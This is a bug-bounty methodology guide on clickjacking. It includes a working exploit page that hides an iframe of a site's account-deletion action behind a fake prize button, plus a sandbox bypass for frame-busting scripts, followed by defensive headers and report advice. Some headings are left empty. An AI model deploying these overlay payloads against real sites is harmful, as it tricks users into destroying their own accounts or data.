


# Clickjacking (UI Redressing)

## When to Use
- When a target application lacks the `X-Frame-Options` or `Content-Security-Policy: frame-ancestors` HTTP response headers.
- When you discover a state-changing action (e.g., a "Delete Account" button or "Transfer Funds" form) that does NOT require password re-authentication.
- To execute a client-side attack escalating a Missing Headers vulnerability into a high-impact action (Bug Bounty requirement).


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Detecting Framability

```http
# Concept: If an application allows itself to be embedded inside an <iframe> on a 
# completely different domain, it is vulnerable to UI redressing.

# 1. Check HTTP Response Headers of the target page
HTTP/1.1 200 OK
# Notice that these headers are MISSING:
# X-Frame-Options: DENY / SAMEORIGIN
# Content-Security-Policy: frame-ancestors 'none' / 'self'

# 2. Basic Test HTML
# Save this locally as test.html and open it in your browser.
<html>
    <body>
        <h1>Can I frame the target?</h1>
        <iframe src="https://target.com/settings" width="800" height="600"></iframe>
    </body>
</html>

# If target.com/settings successfully loads inside the iframe, Clickjacking is possible.
```

### Phase 2: Exploitation Payload Construction

```html
<!-- Concept: We must perfectly align our malicious "Click Here" button completely -->
<!-- ON TOP OF the victim's invisible "Delete Account" button inside the iframe. -->
<!-- We use CSS opacity and absolute positioning. -->

<!DOCTYPE html>
<html>
<head>
    <style>
        /* The invisible target iframe */
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 1000px;
            height: 800px;
            opacity: 0.0001; /* Set to 0.5 when testing, 0.0001 for real attack */
            z-index: 2; /* Iframe sits ON TOP of the bait button */
        }
        
        /* The visible bait the victim thinks they are clicking */
        .bait-button {
            position: absolute;
            /* YOU MUST ADJUST THESE TO PERFECTLY ALIGN WITH THE IFRAME'S TARGET BUTTON */
            top: 250px; 
            left: 100px; 
            z-index: 1; /* Bait sits UNDER the iframe */
            font-size: 20px;
            padding: 10px 20px;
            background-color: blue;
            color: white;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <h1>Win a Free iPhone!</h1>
    <div class="bait-button">Click to Claim Prize!</div>
    
    <!-- The victim is authenticated on target.com, so the iframe loads their real profile -->
    <iframe src="https://target.com/account/settings/delete"></iframe>
</body>
</html>
```

### Phase 3: Advanced Clickjacking (Multi-Step / Form Filling)

```text
# Concept: What if the action requires the victim to type their email before clicking "Delete"?

# 1. Use Strokejacking (Keystroke Hijacking)
# The attacker places their own input field beneath the invisible iframe.
# The victim types into what they think is the attacker's "Claim Form", but the invisible iframe captures the keystrokes.

# 2. Multi-Step Clicks
# If an action requires checking a box and clicking a button, build a game (e.g., "Click the moving dot 3 times").
# Move the invisible iframe underneath the user's cursor dynamically using JavaScript so they click the exact necessary checkboxes.
```

### Phase 4: Bypassing Weak Defenses (Frame-Busting Scripts)

```html
<!-- Concept: Before X-Frame-Options, developers used JavaScript "frame-busting" -->
<!-- `if (top.location != self.location) { top.location = self.location; }` -->

<!-- Bypass: Use HTML5 iframe sandboxing to explicitly disable JavaScript execution inside the iframe. -->
<!-- Since the target requires the victim solely to click a button, the HTML button will still function, but the frame-busting script will crash. -->

<iframe sandbox="allow-forms" src="https://target.com/settings"></iframe>
```

#### Decision Point 🔀



### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **X-Frame-Options**: The legacy, but extraordinarily robust standard. Configure the web server to emit `X-Frame-Options: SAMEORIGIN` or `DENY` on all responses containing HTML.
- **Content-Security-Policy (CSP)**: The modern standard. `Content-Security-Policy: frame-ancestors 'self'` replaces X-Frame-Options and prevents any external domain from rendering the application within a frame.
- **State-Changing Verification**: Operations like changing an email or transferring funds should always prompt the user to re-enter their password (or rely on robust CSRF tokens scoped to the active visible session), significantly increasing the difficulty of single-click UI redressing.

## Key Concepts
| Concept | Description |
|---------|-------------|
| UI Redressing | The formal term for covering an application with an attacker's UI or tricking the user into interacting with hidden elements |
| X-Frame-Options | An HTTP response header specifically designed to declare whether a browser should be allowed to render a page in a `<frame>` or `<iframe>` |
| CSRF vs Clickjacking | CSRF relies on forging an HTTP request invisibly in the background. Clickjacking relies on the user making the legitimate HTTP request themselves via a hijacked physical mouse click |

## Output Format
```
Bug Bounty Report: Clickjacking leading to Account Deletion
===========================================================
Vulnerability: UI Redressing (Clickjacking)
Severity: Medium (CVSS 6.5)
Target: GET /settings/profile

Description:
The application's `/settings/profile` page lacks `X-Frame-Options` and `Content-Security-Policy: frame-ancestors` headers. Because the "Delete My Account" button located on this page requires only a single click and no password confirmation, an attacker can embed this page in a malicious iframe and execute a UI Redressing attack.

Reproduction Steps:
[Include attached Proof-of-Concept HTML file]
1. Retain an active, authenticated session on target.com.
2. Open the provided `clickjack_exploit.html` file in a totally separate domain.
3. The page displays a game titled "Click the Red Dot". 
4. Clicking the central red dot aligns perfectly with the invisible "Delete My Account" button in the overlaying iframe.
5. The account is instantly deleted.

Impact:
Unintentional, critical data destruction executed by authenticated users navigating to third-party domains.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Industry Bounty Payout Statistics (2024-2025)

| Company/Platform | Total Paid | Highest Single | Year |
|-----------------|------------|---------------|------|
| **Google VRP** | $17.1M | $250,000 (CVE-2025-4609 Chrome sandbox escape) | 2025 |
| **Microsoft** | $16.6M | (Not disclosed) | 2024 |
| **Google VRP** | $11.8M | $100,115 (Chrome MiraclePtr Bypass) | 2024 |
| **HackerOne (all programs)** | $81M | $100,050 (crypto firm) | 2025 |
| **Meta/Facebook** | $2.3M | up to $300K (mobile code execution) | 2024 |
| **Crypto.com (HackerOne)** | $2M program | $2M max | 2024 |
| **1Password (Bugcrowd)** | $1M max | $1M (highest Bugcrowd ever) | 2024 |
| **Samsung** | $1M max | $1M (critical mobile flaws) | 2025 |

**Key Takeaway**: Google alone paid $17.1M in 2025 — a 40% increase YoY. Microsoft paid $16.6M.
The industry is paying more, not less. Average critical bounty on HackerOne: $3,700 (2023).

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [Clickjacking](https://owasp.org/www-community/attacks/Clickjacking)
- PortSwigger: [Clickjacking vulnerabilities](https://portswigger.net/web-security/clickjacking)
- W3C: [CSP frame-ancestors directive](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors)
